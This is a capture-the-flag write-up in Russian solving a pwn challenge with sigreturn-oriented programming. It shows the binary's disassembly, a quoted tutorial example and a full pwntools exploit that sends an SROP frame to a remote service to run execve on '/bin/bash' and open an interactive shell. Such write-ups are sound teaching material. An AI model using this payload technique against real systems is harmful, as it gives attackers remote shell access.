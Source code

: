 
1. Откроем файл task и увидим в функции main() следующее содержимое:
```

void entry(void)

{
  syscall();
  return;
}

```
2. Видим syscall и понимаем, что нам нужен SROP для решения.
3. В самом конце файла записана строка `/bin/bash` которая и должна быть передана в качестве аргумента для `syscall`
4. Находим подходящую статью по SROP в учебнике по PWN - [вот ссылка](https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop/using-srop)
5. Пример в статье очень напоминает нам наш файл.
   Вот как это выглядит в статье:
   ```
   from pwn import *

    context.arch = 'amd64'
    context.os = 'linux'
    
    elf = ELF.from_assembly(
        '''
            mov rdi, 0;
            mov rsi, rsp;
            sub rsi, 8;
            mov rdx, 500;
            syscall;
            ret;
            
            pop rax;
            ret;
        ''', vma=0x41000
    )
    elf.save('vuln')
    ```
   И вот как у нас:
   ```
   00041000 48 c7 c7        MOV        RDI,0x0
         00 00 00 00
   00041007 48 89 e6        MOV        RSI,RSP
   0004100a 48 83 ee 08     SUB        RSI,0x8
   0004100e 48 c7 c2        MOV        RDX,0x1f4
         f4 01 00 00
   00041015 0f 05           SYSCALL
   00041017 c3              RET
   00041018 58              POP        RAX
   00041019 c3              RET
   ```
6. Пишем эксплойт по гайду и получаем такой код:
  ```
  from pwn import *
  
  elf = context.binary = ELF('./task', checksec=False)
  p = remote('192.168.12.13', 1555)
  
  BINSH = elf.address + 0x1430
  POP_RAX = 0x41018
  SYSCALL_RET = 0x41015
  
  frame = SigreturnFrame()
  frame.rax = 0x3b  
  frame.rdi = BINSH          
  frame.rsi = 0x0          
  frame.rdx = 0x0           
  frame.rip = SYSCALL_RET
  
  payload = b'A' * 8
  payload += p64(POP_RAX)
  payload += p64(0xf)
  payload += p64(SYSCALL_RET)
  payload += bytes(frame)
  
  p.sendline(payload)
  p.interactive()
  ```
